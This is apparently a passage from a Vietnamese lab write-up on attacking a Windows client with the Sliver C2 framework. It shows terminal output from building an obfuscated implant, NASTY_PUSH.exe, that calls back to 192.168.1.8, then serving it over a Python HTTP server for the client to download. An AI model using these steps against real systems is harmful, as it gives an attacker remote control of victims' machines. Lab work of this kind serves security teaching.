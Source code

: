 ```
[*] Symbol obfuscation is enabled

[*] Build completed in 2m36s
[*] Implant saved to /opt/sliver/NASTY_PUSH.exe

sliver > 
sliver > implants

 Name                   Implant Type   Template   OS/Arch             Format   Command & Control         Debug 
====================== ============== ========== =============== ============ ========================= =======
 NASTY_PUSH   session        sliver     windows/amd64   EXECUTABLE   [1] https://192.168.1.8   false 

sliver > exit
                                                                                              
┌──(root㉿kali)-[/home/kali]
└─# cd /opt/sliver                          
                                                                                              
┌──(root㉿kali)-[/opt/sliver]
└─# ls
NASTY_PUSH.exe
                                                                                              
┌──(root㉿kali)-[/opt/sliver]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.7 - - [27/Aug/2025 01:57:46] "GET / HTTP/1.1" 200 -
192.168.1.7 - - [27/Aug/2025 01:57:54] code 404, message File not found
192.168.1.7 - - [27/Aug/2025 01:57:54] "GET /favicon.ico HTTP/1.1" 404 -

```

Cài Sliver C2 để thực hiện tấn công vào máy win client.

Tạo một ``implant``  và lưu vào thư mục ``/opt/sliver``, bằng kết nối ``http``, sẽ kết nối ngược về sliver server ``192.168.1.8`` ngay khi nó được thực thi trên máy windows client.
Deploy 1 http server port 80 trên thư mục này, rồi mở máy client, download payload đã được chuẩn bị sẵn ``NASTY_PUSH.exe`` về máy:

![alt text](image-4.png)
